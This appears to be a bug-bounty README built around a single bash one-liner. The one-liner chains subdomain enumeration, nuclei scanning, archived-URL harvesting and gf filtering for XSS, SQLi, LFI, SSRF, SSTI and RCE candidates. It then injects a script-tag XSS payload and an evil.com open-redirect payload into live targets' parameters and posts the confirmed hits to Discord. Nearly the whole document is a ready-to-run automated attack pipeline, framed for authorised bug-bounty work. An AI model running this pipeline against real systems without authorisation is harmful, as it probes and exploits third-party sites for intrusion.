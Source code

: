 



### ----------------------------------------------MULTIPLE TARGET---------------------------------------------------------------------

## BUGBOUNTY

create target directory go inside directory
save domains in domains.txt file and run below command

```bash
subfinder -dL  domains  -o subdomains -all    && cat subdomains  | dnsx -silent -a -resp-only   | sort -u > dnsx && cat subdomains dnsx > subs-host  && httpx -l subs-host  -mc 200,301,302,404   -o httpx &&  nuclei -l httpx     -o nuclei -me     report -stats  -si 1800  -rc ~/.config/nuclei/report-config.yaml &&  echo "\033[1m WAYBACKURLS STARTED" "\033[0m"     &&  cat httpx | waybackurls | urldedupe > waybackurls &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED waybackurls" "\033[0m"  && echo "\033[37m"  |  wc -l waybackurls   &&  echo "\033[37m\033[1m GF-XSS SCAN STARTED" "\033[0m"         && cat waybackurls | urldedupe | gf xss > xss &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED xss"  "\033[0m"  && echo "\033[37m"  |  wc -l xss    &&  echo "\033[37m\033[1m GF-REDİRECT SCAN STARTED" "\033[0m"         && cat waybackurls | urldedupe | gf redirect > redirect &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED  redirect"  "\033[0m"  && echo "\033[37m"  |  wc -l redirect   &&  echo "\033[37m\033[1m GF-SQLİ SCAN STARTED" "\033[0m"        && cat waybackurls | urldedupe | gf sqli > sqli &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED sqli"  "\033[0m" && echo "\033[37m"  |  wc -l sqli    &&  echo "\033[37m\033[1m GF-LFİ SCAN STARTED" "\033[0m"        &&  cat waybackurls | urldedupe | gf lfi > lfi  &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED lfi"   "\033[0m"   && echo "\033[37m"  |  wc -l lfi       &&  echo "\033[37m\033[1m GF-SSRF SCAN STARTED" "\033[0m"          &&  cat waybackurls | urldedupe | gf ssrf > ssrf   &&  echo "\033[37m\033[1m OK"  "\033[1m\033[32m SAVED ssrf"   "\033[0m"  && echo "\033[37m"  |  wc -l ssrf        &&  echo "\033[37m\033[1m GF-SSTİ SCAN STARTED" "\033[0m"         &&  cat waybackurls | urldedupe | gf ssti > ssti   &&  echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED ssti"  "\033[0m"   && echo "\033[37m"  |  wc -l ssti       &&  echo "\033[37m\033[1m GF-RCE SCAN STARTED" "\033[0m"          &&  cat waybackurls | urldedupe | gf rce > rce   &&  echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED rce"   "\033[0m"   && echo "\033[37m"  |  wc -l rce       &&  echo "\n\033[34m\033[1m XSS SCAN STARTED" "\033[0m"  && echo "\033[37m"  |  wc -l xss   &&   cat xss  | grep "=" | qsreplace '<ScRiPt>alert(document.domain)</ScRiPt>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<ScRiPt>alert(document.domain)</ScRiPt>" && echo "\033[37m\033[1m "  "\033[40m\033[36m\033[1m" "$host" "\033[40m\033[31m\033[1m" Vulnerable;done  | tee xss-poc &&  echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED xss-poc"   &&  echo "\n\033[34m\033[1m OPEN-REDİRECT SCAN STARTED" "\033[0m"   && echo "\033[37m"  |  wc -l redirect  &&  cat redirect | grep "=" | qsreplace "http://evil.com/" | httpx -sc -title -mr "Evil.Com - We get it...Daily." -o openredirect-poc &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED openredirect-poc" && echo "\n\033[34m\033[1m NOTİFY OPEN-REDİRECT SEND" "\033[0m" && notify -data openredirect-poc  -p discord -d 2 -silent  &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m openredirect-poc SUCCESSFULLY SENT TO DISCORD"  && echo "\n\033[34m\033[1m NOTİFY XSS SEND" "\033[0m" && notify -data xss-poc  -p discord -d 2 -silent   &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m xss-poc SUCCESSFULLY SENT TO DISCORD"   && echo "\n\033[34m\033[1m NOTİFY NUCLEİ SEND" "\033[0m"  && echo "\033[37m"  |  wc -l nuclei    && notify -data nuclei  -p discord -d 2 -silent   &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m nuclei SUCCESSFULLY SENT TO DISCORD" 
```


### ----------------------------------------------MULTIPLE TARGET---------------------------------------------------------------------

